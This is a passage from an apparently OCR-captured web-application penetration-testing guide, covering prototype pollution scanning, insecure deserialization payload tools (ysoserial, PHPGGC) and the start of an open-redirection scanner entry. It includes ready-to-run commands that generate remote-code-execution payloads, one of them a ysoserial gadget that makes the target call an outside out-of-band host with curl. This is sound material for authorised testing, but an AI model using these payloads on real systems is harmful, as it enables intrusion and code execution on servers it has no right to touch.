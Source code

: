         # Usage
        cat urls.txt | ppmap
        ```
*   **Testing:**
    *   Look for unsafe recursive merge functions in JavaScript code.

### 3.16 Insecure Deserialization
*   This occurs when an application deserializes untrusted user input without proper validation, leading to remote code execution.
*   **Payload Generation Tools:**
    *   **ysoserial:** The ultimate tool for generating Java deserialization payloads.
        ```bash
        # Installation
        # Download the jar from https://github.com/frohoff/ysoserial

        # Usage - Generate a payload for the "CommonsCollections1" gadget
        java -jar ysoserial.jar CommonsCollections1 'curl http://x.oast.fun' > payload.bin
        # Then send the payload.bin in the request
        ```
    *   **PHPGGC:** A library of PHP unserialize() payloads.
        ```bash
        # Installation
        git clone https://github.com/ambionics/phpggc.git

        # Usage
        phpggc/phpggc monolog/rce1 system id
        ```
*   **Languages & Tools:**
    *   **Java:** Look for serialized objects in HTTP requests (often starting with `ac ed 00 05`). Use the `ysoserial` tool to generate payloads.

### 3.17 Open Redirection
*   Occurs when an application redirects users to a URL specified in a user-controlled parameter without proper validation.
*   **Automated Scanners:**
    *   **Oralyzer:** A powerful open redirection scanner.
        ```bash
        # Installation
        git clone https://github.com/r0075h3ll/Oralyzer.git
        pip3 install -r Oralyzer/requirements.txt
